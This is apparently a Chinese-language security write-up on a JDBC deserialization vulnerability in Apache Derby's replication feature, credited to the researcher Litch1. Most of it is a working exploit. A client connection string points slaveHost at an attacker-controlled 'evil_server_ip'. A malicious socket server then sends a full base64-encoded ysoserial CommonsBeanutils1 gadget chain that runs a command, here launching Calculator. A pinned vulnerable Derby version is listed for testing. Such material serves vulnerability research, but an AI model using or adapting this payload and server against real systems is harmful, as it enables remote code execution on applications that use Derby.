


# Apache Derby

在Derby的驱动代码中，Litch1发现org.apache.derby.impl.store.replication.net.SocketConnection类中有可疑的调用



然后他发现一个内类org.apache.derby.impl.store.replication.net.ReplicationMessageTransmit.MasterReceiverThread调用了这个方法。



ReplicationMessageTransmit用于通过配置startMaster=true和slaveHost=127.0.0.1将数据库从主服务器复制到从服务器。

如果我们将从属服务器配置为恶意服务器，derby将建立JDBC连接并从SLAVE读取数据流，当MasterReceiverThread执行readMessage方法时，恶意服务器将返回恶意代码并触发反序列化


POC

```java
public static void main(String[] args) throws Exception{
    Class.forName("org.apache.derby.jdbc.EmbeddedDriver");
    DriverManager.getConnection("jdbc:derby:webdb;startMaster=true;slaveHost=evil_server_ip");
}
```

恶意服务器，这里通过CommonBeanUtils1测试

```
	public static void main(String[] args) throws Exception {
		// 监听端口，默认 4851，可以指定
		int          port   = 4851;
		ServerSocket server = new ServerSocket(port);
		Socket       socket = server.accept();

		// 读取恶意反序列化
		String evil = "rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBhcmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAK29yZy5hcGFjaGUuY29tbW9ucy5iZWFudXRpbHMuQmVhbkNvbXBhcmF0b3LjoYjqcyKkSAIAAkwACmNvbXBhcmF0b3JxAH4AAUwACHByb3BlcnR5dAASTGphdmEvbGFuZy9TdHJpbmc7eHBzcgA/b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmNvbXBhcmF0b3JzLkNvbXBhcmFibGVDb21wYXJhdG9y+/SZJbhusTcCAAB4cHQAEG91dHB1dFByb3BlcnRpZXN3BAAAAANzcgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVzSW1wbAlXT8FurKszAwAISQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WgAVX3VzZVNlcnZpY2VzTWVjaGFuaXNtTAALX2F1eENsYXNzZXN0ADtMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvSGFzaHRhYmxlO1sACl9ieXRlY29kZXN0AANbW0JbAAZfY2xhc3N0ABJbTGphdmEvbGFuZy9DbGFzcztMAAVfbmFtZXEAfgAETAARX291dHB1dFByb3BlcnRpZXN0ABZMamF2YS91dGlsL1Byb3BlcnRpZXM7eHAAAAAA/////wBwdXIAA1tbQkv9GRVnZ9s3AgAAeHAAAAACdXIAAltCrPMX+AYIVOACAAB4cAAABrHK/rq+AAAAMgA5CgADACIHADcHACUHACYBABBzZXJpYWxWZXJzaW9uVUlEAQABSgEADUNvbnN0YW50VmFsdWUFrSCT85Hd7z4BAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAE1N0dWJUcmFuc2xldFBheWxvYWQBAAxJbm5lckNsYXNzZXMBADVMeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRTdHViVHJhbnNsZXRQYXlsb2FkOwEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApFeGNlcHRpb25zBwAnAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGl0ZXJhdG9yAQA1TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjsBAAdoYW5kbGVyAQBBTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApTb3VyY2VGaWxlAQAMR2FkZ2V0cy5qYXZhDAAKAAsHACgBADN5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJFN0dWJUcmFuc2xldFBheWxvYWQBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQAUamF2YS9pby9TZXJpYWxpemFibGUBADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BAB95c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzAQAIPGNsaW5pdD4BABFqYXZhL2xhbmcvUnVudGltZQcAKgEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsMACwALQoAKwAuAQATb3BlbiAtbmEgQ2FsY3VsYXRvcggAMAEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsMADIAMwoAKwA0AQANU3RhY2tNYXBUYWJsZQEAInlzb3NlcmlhbC9Qd25lcjE2NDM3MDMwNTQzNjg3MjQwMDABACRMeXNvc2VyaWFsL1B3bmVyMTY0MzcwMzA1NDM2ODcyNDAwMDsAIQACAAMAAQAEAAEAGgAFAAYAAQAHAAAAAgAIAAQAAQAKAAsAAQAMAAAALwABAAEAAAAFKrcAAbEAAAACAA0AAAAGAAEAAAAuAA4AAAAMAAEAAAAFAA8AOAAAAAEAEwAUAAIADAAAAD8AAAADAAAAAbEAAAACAA0AAAAGAAEAAAAzAA4AAAAgAAMAAAABAA8AOAAAAAAAAQAVABYAAQAAAAEAFwAYAAIAGQAAAAQAAQAaAAEAEwAbAAIADAAAAEkAAAAEAAAAAbEAAAACAA0AAAAGAAEAAAA3AA4AAAAqAAQAAAABAA8AOAAAAAAAAQAVABYAAQAAAAEAHAAdAAIAAAABAB4AHwADABkAAAAEAAEAGgAIACkACwABAAwAAAAkAAMAAgAAAA+nAAMBTLgALxIxtgA1V7EAAAABADYAAAADAAEDAAIAIAAAAAIAIQARAAAACgABAAIAIwAQAAl1cQB+ABEAAAHUyv66vgAAADIAGwoAAwAVBwAXBwAYBwAZAQAQc2VyaWFsVmVyc2lvblVJRAEAAUoBAA1Db25zdGFudFZhbHVlBXHmae48bUcYAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAANGb28BAAxJbm5lckNsYXNzZXMBACVMeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRGb287AQAKU291cmNlRmlsZQEADEdhZGdldHMuamF2YQwACgALBwAaAQAjeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRGb28BABBqYXZhL2xhbmcvT2JqZWN0AQAUamF2YS9pby9TZXJpYWxpemFibGUBAB95c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzACEAAgADAAEABAABABoABQAGAAEABwAAAAIACAABAAEACgALAAEADAAAAC8AAQABAAAABSq3AAGxAAAAAgANAAAABgABAAAAOwAOAAAADAABAAAABQAPABIAAAACABMAAAACABQAEQAAAAoAAQACABYAEAAJcHQABFB3bnJwdwEAeHEAfgAOeA==";
		byte[] decode = Base64.getDecoder().decode(evil);

		// 直接向 socket 中写入
		socket.getOutputStream().write(decode);
		socket.getOutputStream().flush();
		Thread.sleep(TimeUnit.SECONDS.toMillis(5));
		socket.close();
		server.close();
	}
```

给出依赖便于测试

```xml
<dependency>
  <groupId>org.apache.derby</groupId>
  <artifactId>derby</artifactId>
  <version>10.10.1.1</version>
</dependency>
```

